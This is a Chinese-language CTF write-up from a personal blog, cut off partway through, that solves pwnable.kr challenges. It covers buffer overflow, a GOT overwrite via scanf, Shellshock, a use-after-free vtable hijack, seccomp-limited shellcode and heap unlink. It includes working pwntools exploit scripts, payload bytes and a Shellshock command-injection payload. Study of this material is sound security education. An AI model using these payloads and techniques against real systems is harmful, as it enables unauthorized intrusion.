<!DOCTYPE html>
<html lang="zh-Hans">
    
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta name="generator" content="Edvison&#39;s blog">
    <title>pwnable第一区write up - Edvison&#39;s blog</title>
    <meta name="author" content="Edvison">
    
    
    
        <link rel="alternate" type="application/atom+xml" title="RSS" href="/atom.xml">
    
    <script type="application/ld+json">{"@context":"http://schema.org","@type":"BlogPosting","author":{"@type":"Person","name":"Edvison","sameAs":["https://github.com/edvison","mailto:edvisonmail@163.com"],"image":"1.png"},"articleBody":"pwnable.kr第一区的题的write up整理在这：\n\n\nfd看一下fd.c:123456789101112131415161718192021#include &lt;stdio.h&gt;#include &lt;stdlib.h&gt;#include &lt;string.h&gt;char buf[32];int main(int argc, char* argv[], char* envp[])&#123;\tif(argc&lt;2)&#123;\t\tprintf(\"pass argv[1] a number\\n\");  //输入一个命令行参数\t\treturn 0;\t&#125;\tint fd = atoi( argv[1] ) - 0x1234;     //  0x1234  &gt;&gt;  4660\tint len = 0;\tlen = read(fd, buf, 32);\tif(!strcmp(\"LETMEWIN\\n\", buf))&#123;        //字符串比较\t\tprintf(\"good job :)\\n\");\t\tsystem(\"/bin/cat flag\");\t\texit(0);\t&#125;\tprintf(\"learn about Linux file IO\\n\");\treturn 0;&#125;\n\ncol123456789101112131415161718192021222324252627282930313233#include &lt;stdio.h&gt;#include &lt;string.h&gt;unsigned long hashcode = 0x21DD09EC;      //keyunsigned long check_password(const char* p)&#123;\tint* ip = (int*)p;\tint i;\tint res=0;\tfor(i=0; i&lt;5; i++)&#123;\t\tres += ip[i];\t&#125;\treturn res;&#125;int main(int argc, char* argv[])&#123;\tif(argc&lt;2)&#123;\t\tprintf(\"usage : %s [passcode]\\n\", argv[0]);\t\treturn 0;\t&#125;\tif(strlen(argv[1]) != 20)&#123;\t\tprintf(\"passcode length should be 20 bytes\\n\");  /* 参数字符串长度为20个字符 */\t\treturn 0;\t&#125;\tif(hashcode == check_password( argv[1] ))&#123;  \t\tsystem(\"/bin/cat flag\");       /* 如果累加和相等就能够执行对应的命令，输出flag */\t\treturn 0;\t&#125;\telse\t\tprintf(\"wrong passcode.\\n\");\treturn 0;&#125;\n可以看出check_password函数将这20个字符分为5个数，所以只要计算5个数之和等于hashcode就行了。先尝试一下直接提供参数”\\x21\\xDD\\x09\\xEC”+”\\x00”16:报错了，似乎是因为不能用\\x00？，那就用\\x01好了=-=：用一个大数加上后面四个相等的数，即A+4B=hashcodehashcode = 0x21DD09EC =  568134124（10）设B = \\x01\\x01\\x01\\x01；B = 16843009（10）A = 568134124（10） - 4  B = 500762088A=\\xe8\\x05\\xd9\\x1d所以可以提供参数：“\\xe8\\x05\\xd9\\x1d” + “\\x01”  16 getflag~\nbofDownload : http://pwnable.kr/bin/bofDownload : http://pwnable.kr/bin/bof.c\nRunning at : nc pwnable.kr 9000123456789101112131415161718#include &lt;stdio.h&gt;#include &lt;string.h&gt;#include &lt;stdlib.h&gt;void func(int key)&#123;\tchar overflowme[32];\tprintf(\"overflow me : \");\tgets(overflowme);\t// smash me!\tif(key == 0xcafebabe)&#123;\t\tsystem(\"/bin/sh\");\t&#125;\telse&#123;\t\tprintf(\"Nah..\\n\");\t&#125;&#125;int main(int argc, char* argv[])&#123;\tfunc(0xdeadbeef);\treturn 0;&#125;\n一道缓冲区溢出题，我们可以利用overflowme[32]来覆盖key的值得到flag。\n用gdb调：可以发现[ebp-0xc]是overflowme，[ebp+0x8]是0xcafebabe。\n找到cmp比较的地址，下断：\n\n输入32个A:\n此时还没有溢出：\n但是上面已经覆盖了0x41414141.距离目标0xdeadbeef还有20个字节。\n之前输入的是32个A。所以我们需要填充52个字节，再覆盖上0xdeadbeef。 0xdeadbeef已经被0x42424242成功覆盖了~接下来只需要把BBBB改成key-&gt;0xcafebabe就行了\n用pwntools：\n\nupxDownload : http://pwnable.kr/bin/flag$ ./flagI will malloc() and strcpy the flag there. take it.$ strings flag…$ strings flag | grep -i upxUPX!$Info: This file is packed with the UPX executable packer http://upx.sf.net $$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $UPX!UPX!\n$ file flagflag: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped\n$ upx -d flag                       Ultimate Packer for eXecutables                          Copyright (C) 1996 - 2013UPX 3.91        Markus Oberhumer, Laszlo Molnar &amp; John Reiser   Sep 30th 2013\nFile size         Ratio      Format      Name\n\n887219 &lt;-    335288   37.79%  linux/ElfAMD   flag\nUnpacked 1 file.(if no upx…..do:sudo apt-get install upx-ucl)\n之后将脱壳后的flag文件脱进ida里直接找到:\n\n.rodata:0000000000496628 aUpx___?SoundsL db ‘UPX…? sounds like a delivery service :)’,0.rodata:0000000000496628                                         ; DATA XREF: .data:flag\u0019o\n\npasscode12345678910111213141516171819202122232425262728293031323334353637383940414243#include &lt;stdio.h&gt;#include &lt;stdlib.h&gt;void login()&#123;\tint passcode1;\tint passcode2;\tprintf(\"enter passcode1 : \");\tscanf(\"%d\", passcode1);      //scanf读入有问题\tfflush(stdin);               //清空输入缓冲区\t// ha! mommy told me that 32bit is vulnerable to bruteforcing :)\tprintf(\"enter passcode2 : \");        scanf(\"%d\", passcode2);  //scanf\tprintf(\"checking...\\n\");\tif(passcode1==338150 &amp;&amp; passcode2==13371337)&#123;                printf(\"Login OK!\\n\");                system(\"/bin/cat flag\");        &#125;        else&#123;                printf(\"Login Failed!\\n\");\t\texit(0);        &#125;&#125;void welcome()&#123;\tchar name[100];\tprintf(\"enter you name : \");\tscanf(\"%100s\", name);\tprintf(\"Welcome %s!\\n\", name);&#125;int main()&#123;\tprintf(\"Toddler's Secure Login System 1.0 beta.\\n\");\twelcome();\tlogin();\t// something after login...\tprintf(\"Now I can safely trust you that you have credential :)\\n\");\treturn 0;\t&#125;\n这题的解法就是向fflush的got表里写入地址，这样在执行fflush的时候就能跳到这个地址了。在ida里找到fflush的地址：还有我们要跳到的login ok的地址：\n构造exp:123456789from pwn import*p = ssh(host='pwnable.kr', port=2222, user='passcode', password='guest')sh = p.process(\"./passcode\")#addr = 0x080485d7 -&gt; 134514135  因为输入只接受十进制的数，所以要把地址的值转化为十进制payload = 'a' * 96 + '\\x04\\xa0\\x04\\x08' + '134514135'sh.sendline(payload)print (sh.recvall())\n\nmistakessh mistake@pwnable.kr -p2222 (pw:guest)\n提示：运算符符优先级\n记不清优先级的话，就在做题前先复习下运算符优先级吧.1234567891011121314151617181920212223242526272829303132333435363738394041424344454647484950#include &lt;stdio.h&gt;#include &lt;fcntl.h&gt;#define PW_LEN 10#define XORKEY 1void xor(char* s, int len)&#123;\tint i;\tfor(i=0; i&lt;len; i++)&#123;\t\ts[i] ^= XORKEY;\t&#125;&#125;int main(int argc, char* argv[])&#123;\t\tint fd;\tif(fd=open(\"/home/mistake/password\",O_RDONLY,0400) &lt; 0)&#123;\t\tprintf(\"can't open password %d\\n\", fd);\t\treturn 0;\t&#125;\tprintf(\"do not bruteforce...\\n\");\tsleep(time(0)%20);\tchar pw_buf[PW_LEN+1];\tint len;\tif(!(len=read(fd,pw_buf,PW_LEN) &gt; 0))&#123;\t\tprintf(\"read error\\n\");\t\tclose(fd);\t\treturn 0;\t\t\t&#125;\tchar pw_buf2[PW_LEN+1];\tprintf(\"input password : \");\tscanf(\"%10s\", pw_buf2);\t// xor your input\txor(pw_buf2, 10);\tif(!strncmp(pw_buf, pw_buf2, PW_LEN))&#123;\t\tprintf(\"Password OK\\n\");\t\tsystem(\"/bin/cat flag\\n\");\t&#125;\telse&#123;\t\tprintf(\"Wrong Password\\n\");\t&#125;\tclose(fd);\treturn 0;&#125;\n问题出在这：1fd=open(\"/home/mistake/password\",O_RDONLY,0400) &lt; 0\n = 的优先级比 &lt; 小，但是open又总是返回一个非负数的，所以&lt;0为假，fd=0.也就是用户自己输入一段长度为10的数据，并保证password是和1进行按位异或的结果就行了。 \nshellshock这题是个真实漏洞，wiki-&gt;https://en.wikipedia.org/wiki/Shellshock_(software_bug)\n\n  Shellshock，又称Bashdoor[1]，是在Unix中广泛使用的Bash shell中的一个安全漏洞[2]，首次于2014年9月24日公开。许多互联网守护进程，如网页服务器，使用bash来处理某些命令，从而允许攻击者在易受攻击的Bash版本上执行任意代码。这可使攻击者在未授权的情况下访问计算机系统[3]。\n\n这个漏洞的原始形式包括一个特殊的环境变量，其中包含一个导出的函数定义，其次是任意命令。Bash在导入该函数时不正确地执行跟踪命令。可以使用以下命令对漏洞进行测试：1env x='() &#123; :;&#125;; echo vulnerable' bash -c \"echo this is a test\"\n在受该漏洞影响的系统中，上述命令将显示“vulnerable”一词，这是Bash执行命令“echo vulnerable”的结果，该命令被嵌入到指定的名为“x”的环境变量中。\nssh shellshock@pwnable.kr -p2222 (pw:guest)\n接下来在目标系统中输入这个命令：1env x='() &#123; :;&#125;; echo vulnerable' ./bash -c \"echo this is a test\"\n注意要用./bash\n 显示了vulnerable，说明该系统中确实存在这个漏洞。我们根据其特征对其加以利用，直接cat flag：1env x='() &#123; :;&#125;; /bin/cat flag' ./shellshock\n\nrandom123456789101112131415161718#include &lt;stdio.h&gt;int main()&#123;\tunsigned int random;\trandom = rand();\t// random value!\tunsigned int key=0;\tscanf(\"%d\", &amp;key);\tif( (key ^ random) == 0xdeadbeef )&#123;\t\tprintf(\"Good!\\n\");\t\tsystem(\"/bin/cat flag\");\t\treturn 0;\t&#125;\tprintf(\"Wrong, maybe you should try 2^32 cases.\\n\");\treturn 0;&#125;\n伪随机数…而且发现random的值不会改变的。\n来测试下rand()的值：输出的值总是1804289383\n将其与0xdeadbeef异或：\n\n这个就是正确的key啦~\n\nleg给了一个c和一个asm文件,我直接在代码里加上了注释：1234567891011121314151617181920212223242526272829303132333435363738#include &lt;stdio.h&gt;#include &lt;fcntl.h&gt;int key1()&#123;\tasm(\"mov r3, pc\\n\");  //向计数器pc写入r3的值  0x00008cdc &lt;+8&gt;:\tmov\tr3, pc &#125;int key2()&#123;\tasm(\t\"push\t&#123;r6&#125;\\n\"\t\"add\tr6, pc, $1\\n\"  // 0x00008cfc &lt;+12&gt;:\tadd\tr6, pc, #1  向pc中写入r6的值\t\"bx\tr6\\n\"             //跳转到r6\t\".code   16\\n\"\t\"mov\tr3, pc\\n\"     //0x00008d04 &lt;+20&gt;:\tmov\tr3, pc\t\"add\tr3, $0x4\\n\"  //0x00008d06 &lt;+22&gt;:\tadds\tr3, #4 向pc中写入r3的值再+0x4\t\"push\t&#123;r3&#125;\\n\"\t\"pop\t&#123;pc&#125;\\n\"\t\".code\t32\\n\"\t\"pop\t&#123;r6&#125;\\n\"      //pc = r6 = 0x00008d0c\t);&#125;int key3()&#123;\tasm(\"mov r3, lr\\n\");  //0x00008d28 &lt;+8&gt;:\tmov\tr3, lr  保存lr的值：0x00008d80&#125;int main()&#123;\tint key=0;\tprintf(\"Daddy has very strong arm! : \");\tscanf(\"%d\", &amp;key);\tif( (key1()+key2()+key3()) == key )&#123;\t\tprintf(\"Congratz!\\n\");\t\tint fd = open(\"flag\", O_RDONLY);\t\tchar buf[100];\t\tint r = read(fd, buf, 100);\t\twrite(0, buf, r);\t&#125;\telse&#123;\t\tprintf(\"I have strong leg :P\\n\");\t&#125;\treturn 0;&#125;\n12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273747576777879(gdb) disass mainDump of assembler code for function main:   0x00008d3c &lt;+0&gt;:\tpush\t&#123;r4, r11, lr&#125;   0x00008d40 &lt;+4&gt;:\tadd\tr11, sp, #8   0x00008d44 &lt;+8&gt;:\tsub\tsp, sp, #12   0x00008d48 &lt;+12&gt;:\tmov\tr3, #0   0x00008d4c &lt;+16&gt;:\tstr\tr3, [r11, #-16]   0x00008d50 &lt;+20&gt;:\tldr\tr0, [pc, #104]\t; 0x8dc0 &lt;main+132&gt;   0x00008d54 &lt;+24&gt;:\tbl\t0xfb6c &lt;printf&gt;   0x00008d58 &lt;+28&gt;:\tsub\tr3, r11, #16   0x00008d5c &lt;+32&gt;:\tldr\tr0, [pc, #96]\t; 0x8dc4 &lt;main+136&gt;   0x00008d60 &lt;+36&gt;:\tmov\tr1, r3   0x00008d64 &lt;+40&gt;:\tbl\t0xfbd8 &lt;__isoc99_scanf&gt;   0x00008d68 &lt;+44&gt;:\tbl\t0x8cd4 &lt;key1&gt;   0x00008d6c &lt;+48&gt;:\tmov\tr4, r0   0x00008d70 &lt;+52&gt;:\tbl\t0x8cf0 &lt;key2&gt;   0x00008d74 &lt;+56&gt;:\tmov\tr3, r0   0x00008d78 &lt;+60&gt;:\tadd\tr4, r4, r3   0x00008d7c &lt;+64&gt;:\tbl\t0x8d20 &lt;key3&gt;   0x00008d80 &lt;+68&gt;:\tmov\tr3, r0          ;lr   0x00008d84 &lt;+72&gt;:\tadd\tr2, r4, r3   0x00008d88 &lt;+76&gt;:\tldr\tr3, [r11, #-16]   0x00008d8c &lt;+80&gt;:\tcmp\tr2, r3   0x00008d90 &lt;+84&gt;:\tbne\t0x8da8 &lt;main+108&gt;   0x00008d94 &lt;+88&gt;:\tldr\tr0, [pc, #44]\t; 0x8dc8 &lt;main+140&gt;   0x00008d98 &lt;+92&gt;:\tbl\t0x1050c &lt;puts&gt;   0x00008d9c &lt;+96&gt;:\tldr\tr0, [pc, #40]\t; 0x8dcc &lt;main+144&gt;   0x00008da0 &lt;+100&gt;:\tbl\t0xf89c &lt;system&gt;   0x00008da4 &lt;+104&gt;:\tb\t0x8db0 &lt;main+116&gt;   0x00008da8 &lt;+108&gt;:\tldr\tr0, [pc, #32]\t; 0x8dd0 &lt;main+148&gt;   0x00008dac &lt;+112&gt;:\tbl\t0x1050c &lt;puts&gt;   0x00008db0 &lt;+116&gt;:\tmov\tr3, #0   0x00008db4 &lt;+120&gt;:\tmov\tr0, r3   0x00008db8 &lt;+124&gt;:\tsub\tsp, r11, #8   0x00008dbc &lt;+128&gt;:\tpop\t&#123;r4, r11, pc&#125;   0x00008dc0 &lt;+132&gt;:\tandeq\tr10, r6, r12, lsl #9   0x00008dc4 &lt;+136&gt;:\tandeq\tr10, r6, r12, lsr #9   0x00008dc8 &lt;+140&gt;:\t\t\t; &lt;UNDEFINED&gt; instruction: 0x0006a4b0   0x00008dcc &lt;+144&gt;:\t\t\t; &lt;UNDEFINED&gt; instruction: 0x0006a4bc   0x00008dd0 &lt;+148&gt;:\tandeq\tr10, r6, r4, asr #9End of assembler dump.(gdb) disass key1Dump of assembler code for function key1:   0x00008cd4 &lt;+0&gt;:    \tpush\t&#123;r11&#125;\t\t; (str r11, [sp, #-4]!)   0x00008cd8 &lt;+4&gt;:\t    add\tr11, sp, #0   0x00008cdc &lt;+8&gt;:\t    mov\tr3, pc      ;pc = 0x00008cdc + 0x8 = 0x00008ce4   0x00008ce0 &lt;+12&gt;:\tmov\tr0, r3   0x00008ce4 &lt;+16&gt;:\tsub\tsp, r11, #0   0x00008ce8 &lt;+20&gt;:\tpop\t&#123;r11&#125;\t\t; (ldr r11, [sp], #4)   0x00008cec &lt;+24&gt;:\tbx\tlrEnd of assembler dump.(gdb) disass key2Dump of assembler code for function key2:   0x00008cf0 &lt;+0&gt;:\tpush\t&#123;r11&#125;\t\t; (str r11, [sp, #-4]!)   0x00008cf4 &lt;+4&gt;:\tadd\tr11, sp, #0   0x00008cf8 &lt;+8&gt;:\tpush\t&#123;r6&#125;\t\t; (str r6, [sp, #-4]!)   0x00008cfc &lt;+12&gt;:\tadd\tr6, pc, #1   0x00008d00 &lt;+16&gt;:\tbx\tr6   0x00008d04 &lt;+20&gt;:\tmov\tr3, pc   0x00008d06 &lt;+22&gt;:\tadds\tr3, #4   0x00008d08 &lt;+24&gt;:\tpush\t&#123;r3&#125;   0x00008d0a &lt;+26&gt;:\tpop\t&#123;pc&#125;   0x00008d0c &lt;+28&gt;:\tpop\t&#123;r6&#125;\t\t; (ldr r6, [sp], #4)   0x00008d10 &lt;+32&gt;:\tmov\tr0, r3   0x00008d14 &lt;+36&gt;:\tsub\tsp, r11, #0   0x00008d18 &lt;+40&gt;:\tpop\t&#123;r11&#125;\t\t; (ldr r11, [sp], #4)   0x00008d1c &lt;+44&gt;:\tbx\tlrEnd of assembler dump.(gdb) disass key3Dump of assembler code for function key3:   0x00008d20 &lt;+0&gt;:\tpush\t&#123;r11&#125;\t\t; (str r11, [sp, #-4]!)   0x00008d24 &lt;+4&gt;:\tadd\tr11, sp, #0   0x00008d28 &lt;+8&gt;:\tmov\tr3, lr   0x00008d2c &lt;+12&gt;:\tmov\tr0, r3   0x00008d30 &lt;+16&gt;:\tsub\tsp, r11, #0   0x00008d34 &lt;+20&gt;:\tpop\t&#123;r11&#125;\t\t; (ldr r11, [sp], #4)   0x00008d38 &lt;+24&gt;:\tbx\tlrEnd of assembler dump.(gdb)\n分析之后发现key1是pc的值：0x00008ce4key2 = 0x00008d0ckey3 = 0x00008d80\n所以key = key1 + key2 + key3 = 0x00008ce4+0x00008d0c+0x00008d80=0x00001a770 = 108400(d)\ncmd11234567891011121314151617#include &lt;stdio.h&gt;#include &lt;string.h&gt;int filter(char* cmd)&#123;\tint r=0;    //若str2是str1的子串，则先确定str2在str1的第一次出现的位置，并返回此str1在str2首位置的地址。;如果str2不是str1的子串，则返回NULL。\tr += strstr(cmd, \"flag\")!=0;\tr += strstr(cmd, \"sh\")!=0;\tr += strstr(cmd, \"tmp\")!=0;\treturn r;&#125;int main(int argc, char* argv[], char** envp)&#123;\tputenv(\"PATH=/fuckyouverymuch\");\tif(filter(argv[1])) return 0;\tsystem( argv[1] );\treturn 0;&#125;\n不能出现flag，sh,tmp这些字符串，那就分开传=-=\ncmd212345678910111213141516171819202122232425262728#include &lt;stdio.h&gt;#include &lt;string.h&gt;int filter(char* cmd)&#123;\tint r=0;\tr += strstr(cmd, \"=\")!=0;  \tr += strstr(cmd, \"PATH\")!=0;\tr += strstr(cmd, \"export\")!=0;\tr += strstr(cmd, \"/\")!=0;\tr += strstr(cmd, \"`\")!=0;\tr += strstr(cmd, \"flag\")!=0;\treturn r;&#125;extern char** environ; //用来打印环境变量void delete_env()&#123;\tchar** p;\tfor(p=environ; *p; p++)\tmemset(*p, 0, strlen(*p));&#125;int main(int argc, char* argv[], char** envp)&#123;\tdelete_env();\tputenv(\"PATH=/no_command_execution_until_you_become_a_hacker\");\tif(filter(argv[1])) return 0;\tprintf(\"%s\\n\", argv[1]);\tsystem( argv[1] );\treturn 0;&#125;\n解法很多，不允许修改环境变量，但是不禁pwd命令，用下面的命令cat flag：\nUAFUse After Free简称UAF，是一种常见的堆漏洞利用方式。具体可查看下面这个博客：http://www.evil0x.com/posts/24881.html\n在做题前先了解一些虚函数表：http://blog.csdn.net/haoel/article/details/1948051\n可以用这个命令将文件拷贝到本地：1scp -p 2222 uaf@pwnable.kr:uaf /home/edvison/pwn_work  //注意P要大写orz\n123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778#include &lt;fcntl.h&gt;#include &lt;iostream&gt; #include &lt;cstring&gt;#include &lt;cstdlib&gt;#include &lt;unistd.h&gt;using namespace std;class Human&#123;private:\tvirtual void give_shell()&#123;\t\tsystem(\"/bin/sh\");\t&#125;protected:\tint age;\tstring name;public:\tvirtual void introduce()&#123;\t\tcout &lt;&lt; \"My name is \" &lt;&lt; name &lt;&lt; endl;\t\tcout &lt;&lt; \"I am \" &lt;&lt; age &lt;&lt; \" years old\" &lt;&lt; endl;\t&#125;&#125;;class Man: public Human&#123;public:\tMan(string name, int age)&#123;\t\tthis-&gt;name = name;\t\tthis-&gt;age = age;        &#125;        virtual void introduce()&#123;\t\tHuman::introduce();                cout &lt;&lt; \"I am a nice guy!\" &lt;&lt; endl;        &#125;&#125;;class Woman: public Human&#123;public:        Woman(string name, int age)&#123;                this-&gt;name = name;                this-&gt;age = age;        &#125;        virtual void introduce()&#123;                Human::introduce();                cout &lt;&lt; \"I am a cute girl!\" &lt;&lt; endl;        &#125;&#125;;int main(int argc, char* argv[])&#123;\tHuman* m = new Man(\"Jack\", 25);\tHuman* w = new Woman(\"Jill\", 21);\tsize_t len;\tchar* data;\tunsigned int op;\twhile(1)&#123;\t\tcout &lt;&lt; \"1. use\\n2. after\\n3. free\\n\";\t\tcin &gt;&gt; op;\t\tswitch(op)&#123;\t\t\tcase 1:  //调用两个类函数\t\t\t\tm-&gt;introduce();\t\t\t\tw-&gt;introduce();\t\t\t\tbreak;\t\t\tcase 2:  //分配data空间,从文件argv[2]中读取长度为argc[1]的字符到data\t\t\t\tlen = atoi(argv[1]);\t\t\t\tdata = new char[len];\t\t\t\tread(open(argv[2], O_RDONLY), data, len);\t\t\t\tcout &lt;&lt; \"your data is allocated\" &lt;&lt; endl;\t\t\t\tbreak;\t\t\tcase 3:  //释放对象\t\t\t\tdelete m;\t\t\t\tdelete w;\t\t\t\tbreak;\t\t\tdefault:\t\t\t\tbreak;\t\t&#125;\t&#125;\treturn 0;\t&#125;\n这里如果先执行3再执行1就触发了uaf漏洞。我们的目的是把introduce函数的指针覆盖为give_shell的指针，然后就能执行1调用shell了\n查找到getshell和introduce的地址：\n看main函数的汇编代码，可以发现给每个对象分配了0x18(24)个字节的内存空间：\n在后面调用的Man构造函数里发现了vtable：\n\n在main函数里可以看到这个v13,就是vptr，转换为指针取其中的数据就是vtable的第一个值，加8就是introduce的函数指针。\n然后要让v13+8指向get_shell，就是vtable+8 = 0x401570，所以vtable的值取0x401568. 读取24字节的字符到data。这里要allocate两次，因为是先free的m，再free的w，因此在分配内存的时候优先分配到后释放的w，所以要先申请一次空间，将w分配出去，再分配到m。\nblackjacknc pwnable.kr 9009代码有点长，不复制了。由于它只检查bet是否小于cash，并没有检查是否为负数，我们可以直接输入-1000000然后全部hit，就得到100000了=-=\nasm程序通过使用seccomp只允许应用程序调用 exit(), sigreturn(), read() 和 write() 四种系统调用来达到沙箱的效果。关于seccomp可查看https://tech.liuchao.me/tag/seccomp/ \n1234567891011121314151617181920212223242526272829303132333435363738394041424344454647484950515253545556575859#include &lt;stdio.h&gt;#include &lt;string.h&gt;#include &lt;stdlib.h&gt;#include &lt;sys/mman.h&gt;#include &lt;seccomp.h&gt;#include &lt;sys/prctl.h&gt;#include &lt;fcntl.h&gt;#include &lt;unistd.h&gt;#define LENGTH 128void sandbox()&#123;\tscmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);\tif (ctx == NULL) &#123;\t\tprintf(\"seccomp error\\n\");\t\texit(0);\t&#125;    //用seccomp_rule_add指定只能使用下面几个规则\tseccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);\tseccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);\tseccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);\tseccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);\tseccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);\tif (seccomp_load(ctx) &lt; 0)&#123;   //当使用了除上面以外的函数时，显示错误\t\tseccomp_release(ctx);\t\tprintf(\"seccomp error\\n\");\t\texit(0);\t&#125;\tseccomp_release(ctx);&#125;char stub[] = \"\\x48\\x31\\xc0\\x48\\x31\\xdb\\x48\\x31\\xc9\\x48\\x31\\xd2\\x48\\x31\\xf6\\x48\\x31\\xff\\x48\\x31\\xed\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x4d\\x31\\xd2\\x4d\\x31\\xdb\\x4d\\x31\\xe4\\x4d\\x31\\xed\\x4d\\x31\\xf6\\x4d\\x31\\xff\";unsigned char filter[256];int main(int argc, char* argv[])&#123;\tsetvbuf(stdout, 0, _IONBF, 0);\tsetvbuf(stdin, 0, _IOLBF, 0);\tprintf(\"Welcome to shellcoding practice challenge.\\n\");\tprintf(\"In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\\n\");\tprintf(\"Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\\n\");\tprintf(\"If this does not challenge you. you should play 'asg' challenge :)\\n\");\tchar* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);\tmemset(sh, 0x90, 0x1000);\tmemcpy(sh, stub, strlen(stub));\t\tint offset = sizeof(stub);\tprintf(\"give me your x64 shellcode: \");\tread(0, sh+offset, 1000);\talarm(10);\tchroot(\"/home/asm_pwn\");\t// you are in chroot jail. so you can't use symlink in /tmp\tsandbox();\t((void (*)(void))sh)();\treturn 0;&#125;\n程序要求我们用open()/read()/write()这几个系统函数来写shellcode。可以用pwntools带的shellcraft，exp如下：1234567891011121314151617181920#!/usr/bin/python#-*- coding:utf-8 -×-from pwn import *p = ssh(user='asm', host='pwnable.kr', port=2222, password='guest')sh = p.remote(host='0', port=9026)context(arch='amd64', os='linux', log_level='debug')shellcode = ''shellcode += shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')shellcode += shellcraft.open('rsp', 0, 0)       #将字符串存在rsp上，用open读取文件shellcode += shellcraft.read('rax', 'rsp', 100) #读取100个字节到缓冲区中shellcode += shellcraft.write(1, 'rsp', 100)    #将缓冲区的内容输出sh.recvuntil('shellcode:')print (shellcode+'\\n')sh.send(asm(shellcode))log.success(sh.recvline())\ndubug获得的汇编代码：1234567891011121314151617181920212223242526272829303132333435363738394041424344454647484950515253545556575859606162636465666768697071727374757677787980818283848586878889909192.section .shellcode,\"awx\"    .global _start    .global __start    _start:    __start:    .intel_syntax noprefix        /* push 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\\x00' */        mov rax, 0x101010101010101        push rax        mov rax, 0x101010101010101 ^ 0x676e6f306f306f        xor [rsp], rax        mov rax, 0x306f306f306f306f        push rax        mov rax, 0x3030303030303030        push rax        mov rax, 0x303030306f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f3030303030        push rax        mov rax, 0x3030303030303030        push rax        mov rax, 0x3030303030303030        push rax        mov rax, 0x303030306f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6f6f6f6f6f6f6f6f        push rax        mov rax, 0x6c5f797265765f73        push rax        mov rax, 0x695f656d616e5f65        push rax        mov rax, 0x6c69665f6568745f        push rax        mov rax, 0x7972726f732e656c        push rax        mov rax, 0x69665f736968745f        push rax        mov rax, 0x646165725f657361        push rax        mov rax, 0x656c705f656c6966        push rax        mov rax, 0x5f67616c665f726b        push rax        mov rax, 0x2e656c62616e7770        push rax        mov rax, 0x5f73695f73696874        push rax        /* open(file='rsp', oflag=0, mode=0) */        mov rdi, rsp        xor edx, edx /* 0 */        xor esi, esi /* 0 */        /* call open() */        push 2 /* 2 */        pop rax        syscall        /* call read('rax', 'rsp', 100) */        mov rdi, rax        xor eax, eax /* SYS_read */        push 0x64        pop rdx        mov rsi, rsp        syscall        /* write(fd=1, buf='rsp', n=100) */        push 1        pop rdi        push 0x64        pop rdx        mov rsi, rsp        /* call write() */        push 1 /* 1 */        pop rax        syscall\n简化一下也是可以写汇编拿shellcode的。\nunlink这题涉及到堆溢出orz…之前对堆溢出没有多深的了解，在做题前先去看了这篇博客：http://blog.csdn.net/qq_29343201/article/details/5355821612345678910111213141516171819202122232425262728293031323334353637383940414243#include &lt;stdio.h&gt;#include &lt;stdlib.h&gt;#include &lt;string.h&gt;typedef struct tagOBJ&#123;\tstruct tagOBJ* fd;\tstruct tagOBJ* bk;\tchar buf[8];&#125;OBJ;void shell()&#123;\tsystem(\"/bin/sh\");&#125;void unlink(OBJ* P)&#123;\tOBJ* BK;\tOBJ* FD;\tBK=P-&gt;bk;\tFD=P-&gt;fd;\tFD-&gt;bk=BK;\tBK-&gt;fd=FD;&#125;int main(int argc, char* argv[])&#123;\tmalloc(1024);\tOBJ* A = (OBJ*)malloc(sizeof(OBJ));\tOBJ* B = (OBJ*)malloc(sizeof(OBJ));\tOBJ* C = (OBJ*)malloc(sizeof(OBJ));\t// double linked list: A &lt;-&gt; B &lt;-&gt; C\tA-&gt;fd = B;\tB-&gt;bk = A;\tB-&gt;fd = C;\tC-&gt;bk = B;\tprintf(\"here is stack address leak: %p\\n\", &amp;A);\tprintf(\"here is heap address leak: %p\\n\", A);\tprintf(\"now that you have leaks, get shell!\\n\");\t// heap overflow!\tgets(A-&gt;buf);\t// exploit this unlink!\tunlink(B);\treturn 0;&#125;\n由于使用了gets()函数，导致了堆溢出。可以通过这个来改写ABC在堆中的内容。重点来看这四个指令：1234BK=B-&gt;bk;FD=B-&gt;fd;FD-&gt;bk=BK;BK-&gt;fd=FD;\n化简一下就是：12(B-&gt;fd)-&gt;bk = B-&gt;bk  //FD-&gt;bk = B-&gt;bk(B-&gt;bk)-&gt;fd = B-&gt;fd  //BK-&gt;fd = 